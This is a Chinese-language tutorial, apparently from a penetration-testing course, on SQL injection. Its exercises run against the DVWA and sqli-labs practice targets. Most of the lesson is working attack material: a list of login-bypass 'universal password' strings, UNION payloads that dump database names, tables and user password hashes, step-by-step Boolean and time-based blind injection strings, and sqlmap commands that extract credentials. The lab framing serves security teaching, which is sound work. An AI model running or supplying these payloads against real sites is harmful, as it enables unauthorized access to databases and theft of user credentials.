# 201-A3-SQL注入（上）

从本节开始，我们将学习SQL注入漏洞。在学习本节课之前，请务必复习并理解前文中有关mariadb的知识。

## 1.SQL注入的概念

SQL注入 （SQL Injection）：通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。

具体来说，它是利用现有应用程序，将（恶意）的SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。

首先让我们了解什么时候可能发生SQL Injection。

假设我们在浏览器中输入URL www.sample.com，由于它只是对页面的简单请求无需对数据库动进行动态请求，所以它不存在SQL Injection，当我们输入www.sample.com?testid=23时，我们在URL中传递变量testid，并且提供值为23，由于它是对数据库进行动态查询的请求（其中?testid＝23表示数据库查询变量），所以我们可以该URL中嵌入恶意SQL语句。 

## 2.SQL注入的安全隐患

一旦应用中存在sql注入漏洞，就可能会造成如下影响:

1. 数据库内的信息全部被外界窃取。
2. 数据库中的内容被篡改。
3. 登录认证被绕过
4. 其他，例如服务器上的文件被读取或修改/服务上的程序被执行等。

## 3. SQL注入产生的过程

如果一个网站使用数据库来存储用户登录信息，并执行如下的SQL语句进行登录尝试：
    `select * from users where username='farmsec'  and password='123456'`
在这种情况下，攻击者可注入用户名或密码字段，以修改应用程序执行的查询，从而破坏它的逻辑。例如攻击者知道应用程序的username为farmsec，那么他就可以通过提交一下用户名和任意密码，以管理员的身份登录：
      `farmsec' -- `
应用程序将执行以下查询：
      `select * from users where username='farmsec' --' and password='sadfas'`
于是乎这个查询完全避开了密码检查。

这也引出了经典的万能密码问题。

有些网站的登录页面其背后的逻辑就是上文中的语句。

我们可以在密码部分注入：` 'or 1=1 -- `

那么整个句子就变成：

​      `select * from users where username='farmsec' and password=''or 1=1 --`

因为1永远等于1，登录验证就会被绕过。

一些常见的万能密码形式：

```
'or'='or'
admin'-- 
admin' or 4=4-- 
admin' or '1'='1'-- 
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1-- 
admin' or '2'='2
')or('a'='a
or 4=4-- 
```

## 4.SQL注入的分类

SQL注入根据不同的分类方法会有多种类别。但依照最大的区别特征而言，主要分为显注和盲注两类。

显注是指，当攻击者拼接SQL语句注入时，网站会把SQL语句的执行结果显示在网页上。

盲注与显著相反，网站不会把SQL语句的执行结果显示出来。盲注还分为时间性盲注和布尔型两者，这会在后文中详述。

## 5.SQL注入案例

### 5.1 显注案例

登录访问DVWA，默认用户名：admin密码：password,登录之后，将dvwa的安全级别调成low,low代表安全级别最低，存在较容易测试的漏洞。
1、找到SQl Injection 选项，测试是否存在注入点，这里用户交互的地方为表单，这也是常见的SQL注入漏洞存在的地方。正常测试，输入1，可以得到如下结果



当将输入变为`'`时，页面提示错误“You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1”，结果如图。看到这个结果，我们可以欣慰的知道，这个表单存在着注入漏洞。



因为我们推测，网站程序中的SQL查询语句可能是这样的：

`select * from XXX where id='$用户输入'`

当我们输入`'`时，语句变为了：

```mariadb
select * from XXX where id='''
```

如此，这个搜索语句多余一个引号，会引发报错。同时，这也代表了，攻击者是可以对原有程序进行拼接与注入的，只要尽力构造攻击语句，就可以对后端数据库为所欲为。


为了进一步确认我们能否自如的操作后端数据库，我们以此构造插入如下语句：

```bash
1' and 1=1#
1' and 1=2#
```

其中`#`与`-- `同理，属于SQL语句的注释符号，会使其后面的语句无效。

那么理想中，原有语句会被拼接成这样。

```sql
select * from XXX where id='1' and 1=1#'
select * from XXX where id='1' and 1=2#'
```

前一个执行为真，应与输入1时结果相同，后一个执行结果为假，应当不返还结果。





由此我们确认了，这个漏洞真实存在，而且后续有可以完全被攻击者操作。

接下来，我们可以有order by num语句查询该数据表的字段数量。

我们输入 `1' order by 1#` 结果页面正常显示。继续测试，`1' order by 2#`,`1' order by 3#`，当输入3是，页面报错。页面错误信息如下，`Unknown column '3' in 'order clause'`，由此我们判断查询结果值为2列。





接下来利用联合查询，查看一下我们要查询的数据会被回显到哪里。

这里尝试注入 `1' and 1=2 union select 1,2 #`



从而得出First name处显示结果为查询结果第一列的值，surname处显示结果为查询结果第二列的值，利用内置函数`user()`,及`database()`，`version()`注入得出连接数据库用户以及数据库名称：

我们注入：

`1' and 1=2 union select user(),database() # `



获得操作系统信息：

`1' and 1=2 union select 1,@@global.version_compile_os from mysql.user #`



为了获取到整个数据库的特征。我们要首先介绍一下，mysql和MariaDB数据库的一个特征，即information_schema库。

information_schema 库用于存储数据库**元数据**(关于数据的数据)，例如数据库名、表名、列的数据类型、访问权限等。



`information_schema` 库中的`SCHEMATA`表存储了数据库中的所有库信息，`TABLES`表存储数据库中的表信息，包括表属于哪个数据库，表的类型、存储引擎、创建时间等信息。`COLUMNS` 表存储表中的列信息，包括表有多少列、每个列的类型等

构造以下语句可以查到所有的库名。

```sql
1' and 1=2 union select 1,schema_name from information_schema.schemata #
```



接下来，我们查看dvwa库中的所有表名。

```sql
1'and 1=2 union select 1,table_name from information_schema.tables where table_schema= 'dvwa'#
```



攻击者往往关心存储管理员用户与密码信息的表。所以接下来就是users表了。要查询users表中所有的列。

```sql
1'and 1=2 union select 2,column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users'#
```



最后我们查看，user和password两列的信息。

```sql
1'and 1=2 union select user,password from dvwa.users#
```



就这样我们就爆出所有的用户名和密码值！不过，这密码是经过md5加密的。我们需要找一些破解md5值的网站来进行破解！直接百度“CMD5”，然后选择一个网站进去破解就可以了。我们选择admin这个来进行破解，md5密文为：5f4dcc3b5aa765d61d8327deb882cf99。
可以看到密码已经被破解出来了，密码是“password”


### 5.2 盲注案例

进入渗透环境DVWA，在左边的选项里选择SQL Injection（Blind）,进入实验环境。
我们可以看到：在应用界面里有一个可编辑的文本框，旁边有个按钮。这时候，我们输入1试试看。
出现了这么一行字：User ID exists in the database。大概意思是：数据库里存在ID为1的用户。那么这个应用的功能我们就大致知道了。——访问者输入一个用户ID，应用返回存不存在该用户。



那么我们故技重施，输入`'`来查看数据库是否会报错。



很不幸，没有报错，只返回不存在该用户。

这就是盲注，页面不会显示数据库的查询结果。只会表现出两种状态：查询成功、查询失败。

为了进一步确认我们能否自如的操作后端数据库，我们以此构造插入如下语句：

```bash
1' and 1=1#
1' and 1=2#
```





到此我们知道了，网页虽然不会回显数据库执行结果，但我们可以构造语句，让网页不停地显示是和否两种状态。

比如：输入1。结果为真。

输入：1’ and 1=1# 就是查询1，并且1等于1。and 代表两个条件需要都为真。所以`1’ and 1=1#`结果为真，`1’ and 1=2#`结果为假。

我们也可以构造`1’ or 1=2#`，结果应当为真。



原理如下：

我们先猜测一下这里的SQL语句是：`select name from user where id=''`
当我们输入`1' and 1=0#`时，这段sql语句就变成：
`select name from user where id='1' and 1=0#'` 

原先的逻辑是:：从user表中挑出name列的内容，条件是id=1现在变成：从user表中挑出name列的内容，条件是id=1和1=0，数学课都学过逻辑吧，在和连接起来的两个条件里，只要有一个是假，那么这整个的逻辑就是假。1=0是永假，所以id=1 and 1=0也为假。所以，这条SQL查询不返回任何数据，所以应用显示：User ID is MISSING from the database. 在我们输入：1' and 1=1#时，应用显示User ID exists in the database。而SQL注入漏洞的本质是把用户输入的数据当做代码来执行，所以我们判断此处存在SQL注入。


如果我们通过构造sql语句不停的确认是否，就可以得到数据库的一切信息。比如，不停的问，数据库里有1张表吗？两张表吗？三张表吗？

第一张表的表名是4个字吗？5个字吗？。第一张表的表名第一个字母是a吗？是b吗？是c吗？如果网页能够一直告诉我这些问题的是否。我们必然能获取所有数据。**像这种能用是与否的逻辑进行注入的盲注，被称为布尔型盲注（Boolean注入）。**


让我们用上述思路尝试一下：

输入：`1' and length(user())>5#` 
1后面的单引号闭合前面语句。 `length()`函数会返回括号内的字符串长度，例如`length(’abc‘)`返回3。函数`user()`能查询数据库的用户名。`length(user())`即会查询用户名的长度。
这句话的逻辑很简单，如果当前用户名字的长度大于5，则整个条件为真，数据库就去查询有无ID为1的用户，而我们知道ID为1的用户是存在的。所以应用一定会返回：User ID exists in the database. 如果当前用户名字的长度小于5，应用则会返回User ID is MISSING from the database.
虽然我们不能让应用显示详细信息，但我们可以让它回答：是或否。
我们来看看结果：
应用返回真，于是我们知道了当前用户名的长度大于5。



我们接着输入：`1' and length(user())>20#`。



应用返回假，于是，我们知道了当前用户名的长度小于20大于5。

我们反复执行这个过程，会越来越缩小范围。最终可以用等于确定。

`1' and length(user())=14#`



到此我们确定了用户名长度为14。

开始确定用户名，因为我们只能让web应用回复：是或否。
所以我们只能一个字母一个字母来猜。
输入：`1' and substring(user(),1,1)='a'#`

这里的substring()函数的作用是提取字符串中的字符.例如:

```sql
substring('abcd',1,1) #返回a
substring('abcd',3,1) #返回c
substring('abcd',3,2) #返回cd
```


所以注入这个SQL语句的目的就是要取出当前用户名字的第一个字母，用二分法来找出这个字母是什么，接着找第二个字母，然后第三个......

计算机看不懂字符，必须以0和1的形式转化字符。所以每个字符都有个特定的二进制数来表示。而具体用哪些二进制数字表示哪个符号，当然每个人都可以约定自己的一套（这就叫编码），而大家如果要想互相通信而不造成混乱，那么大家就必须使用相同的编码规则，于是美国有关的标准化组织就出台了ASCII编码
在ASCII编码里，大写字母A的acsii最小，依次排下去，到大写字母Z，隔几个别的字符，然后到小写字母a。



运用二分法，我们继续注入：`1' and substring(user(),1,1)<'z'#`



所以范围在小写a-z之间

`1' and substring(user(),1,1)='r'# `



然后就是第二个字母。
注入：`1' and substring(user(),2,1)>'a'#`
注入：`1' and substring(user(),2,1)<'z'#` 
我们继续注入：`1' and substring(user(),2,1)>'h'#` 
注入：`1' and substring(user(),2,1)='o'#` 



后续依此逻辑可以得到全部14位的用户名；

```sql
1' and substring(user(),3,1)='o'#
1' and substring(user(),4,1)='t'#
1' and substring(user(),5,1)='@'#
1' and substring(user(),6,1)='l'#
1' and substring(user(),7,1)='o'#
1' and substring(user(),8,1)='c'#
1' and substring(user(),9,1)='a'#
1' and substring(user(),10,1)='l'#
1' and substring(user(),11,1)='h'#
1' and substring(user(),12,1)='o'#
1' and substring(user(),13,1)='s'#
1' and substring(user(),14,1)='t'#
```

最终得到，用户名为：`root@localhost`

如果想猜测当前数据库，其原理也和上文一样。

首先猜数据库的长度（方法和上方一样），经过注入发现长度为4
`1' and length(database())=4#`

然后，依次注入4位数据库库名的字母。

```sql
1' and substring(database(),1,1)='d'#
1' and substring(database(),2,1)='v'#
1' and substring(database(),3,1)='w'#
1' and substring(database(),4,1)='a'#
```

得到当前数据库库名为`dvwa`

#### 5.2.1 盲注库名

我们可以依照显著的顺序，构造盲注的攻击语句。从而拿下整个数据库。

比如，显著查找数据库库名：

```
1' and 1=2 union select 1,schema_name from information_schema.schemata #
```

盲注更加复杂一些，要分解为以下几个步骤：

1.注入查询有几个库

```
1' and (select count(schema_name) from information_schema.schemata) =6 #
```

2.注入第一个库名长度

```
1' and length((select schema_name from information_schema.schemata limit 0,1))=18 #
## limit 0,1代表截取第一行。limit 0,2代表截取前两行，limit 1,1，代表截取第二行。limit 2,3代表截取从第三行到第五行。
```

3.注入第一个库名

```
1' and substring((select schema_name from information_schema.schemata limit 0,1),1,1)='i' #
1' and substring((select schema_name from information_schema.schemata limit 0,1),2,1)='n' #

这两条也可以用ASCII码代替。
1' and ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1))=105 #
1' and ascii(substr((select schema_name from information_schema.schemata limit 0,1),2,1))=110 #

事实上这个库名我们知道是默认的information_schema
```

#### 5.2.2 盲注表名

与上面的逻辑一样。盲注表名也分为三个步骤：1.盲注查询库内有多少个表；2.盲注查询库内第一个表表名的长度；3.盲注查询库内第一个表的表名

1.盲注查询库内有多少个表

```
1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')=2 #
```

2.盲注查询库内第一个表表名的长度

```
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))<15 #
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))=9 #
```

3.盲注查询库内第一个表的表名

```
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))='g' # 
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))='u' #
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),3,1))='e' #
依照此逻辑可以依次推出余下字符
```

接下来也可以推第二张表

```
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))=5 #
```

```
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))='u' #
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))='s' #
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),3,1))='e' #
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),4,1))='r' #
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),5,1))='s' #
```

#### 5.2.3 盲注列名

逻辑与上文是一样的，三步骤。

1.判断users表中有多少列。


```
1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=8 #
```

2.判断每一列的列名长：

```
1' and length((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 0,1))=7#
1' and length((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 3,1))=4#
1' and length((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 4,1))=8#
```

3.判断第四列列名。

```
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 3,1),1,1))='u'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 3,1),2,1))='s'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 3,1),3,1))='e'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 3,1),4,1))='r'#
```

4.判断第五列列名。

```
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 4,1),1,1))='p'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 4,1),2,1))='a'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 4,1),3,1))='s'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 4,1),4,1))='s'#

（后略）
```

#### 5.2.4 盲注数据

数据库名，表名，列名，现在都推出来了，现在则是查看列里的内容。

```
1' and (select count(*) from dvwa.users)=5# （判断列中有几条记录）
1' and length(substr((select user from users limit 0,1),1))=5# （判断user这一列的第一条记录的长度是否为5)
1' and substr((select user from users limit 0,1),1,1)='a' # (判断user这一列的第一条记录的第一个字段是否为a)
1' and substr((select user from users limit 0,1),2,1)='d'# (判断user这一列的第一条记录的第二个字段是否为d)
1' and substr((select user from users limit 1,1),1,1)>'g'# (判断user这一列的第二条记录的第一个字段ascii码值是否为大于g)
```

### 5.3 时间盲注

这个例子出自sqli-labs靶场的第九关。

靶场下载地址为：https://github.com/Audi-1/sqli-labs



我们发现id=1和id=1’并没有明显区别，没有报错，也没有发现是与否的关系。





这种情况下就可以考虑盲注的另外一种形式，时间注入

时间盲注与布尔型注入的区别在于，时间注入是利用sleep()或benchmark()等函数让数据库执行的时间变长。

时间盲注多与if函数结合使用。如：`if(a,b,c)`，此if语句的含义是，如果a为真则返回值为b,否则返回值为c。

如：`if(length(database())>1,sleep(5),1)`它的含义为，如果当前数据库名字符长度大于1，则执行sleep函数使数据库执行延迟，否则则返回1。

所以时间注入的本质也是布尔注入，只不过是用数据库是否延迟执行的方式来表达是与否的逻辑。


下面我们注入`1%27%20and%20if(length(database())>1,sleep(5),1)--+`

%27为引号的url编码。

来看。








可以看到，一旦我们构造出结果为真的条件，网页（后端数据库）响应就会延迟。


我们把前文学到的盲注语句嵌入到刚刚的if、sleep组成的句子中，就可以完成接下来的注入了。

`1%27%20and%20if($盲注语句，sleep(5),1)--+`

### 6. sqlmap工具

sqlmap是一款非常强大的开源sql自动化注入工具，可以用来检测和利用sql注入漏洞。它是由python语言编写而成。因此使用sqlmap时，需要在python环境中运行。在kali中集成了这个工具使用sqlmap命令即可调用。

sqlmap最基本的语法是`

```
sqlmap -u "$url" --dbs  #注入这个URL，注入出库名。
```

以DVWA为例，由于DVWA需要登录，没有cookie是无法访问这个网站的。所以还需要指定cookie参数。

```bash
sqlmap -u "$url" --cookie="$cookie"  --dbs

sqlmap -u "http://192.168.43.252/vulnerabilities/sqli/?id=12&Submit=Submit" --cookie="PHPSESSID=iuefue0ve30qnodkna7j236e82; security=low; security_level=0" --dbs
```






如果注入点所在是一个POST请求的网页，或者你不想指定cookie这样麻烦。也可以在burp中保存请求包为一个文件，再用sqlmap中的`-r`

参数指定这个文件。

```bash
sqlmap -r 1.txt --dbs
```





sqlmap常见参数：

```bash
-u             #指定url
-r             #指定文件
-p             #指定注入点
--cookie       #指定cookie
--dbs          #注入库名
--D            #指定库名
--tables       #注入表名
-T             #指定表名
--columns      #注入列名
-C             #指定列名
--dump         #注入数据
```

继续以DVWA为例子，注入dvwa库下的表名

`sqlmap -r 1.txt -D dvwa --tables`





注入dvwa库下，users表下的列名。

`sqlmap -r 1.txt -D dvwa -T users --columns`





以url中的id为注入点，注入dvwa库下，users表下的password列的数据。

`sqlmap -r 1.txt  -p id -D dvwa -T users -C password --dump`





以上是sqlmap的基本用法，这个工具还有许多其他强大的功能，在后文工具篇另有详述。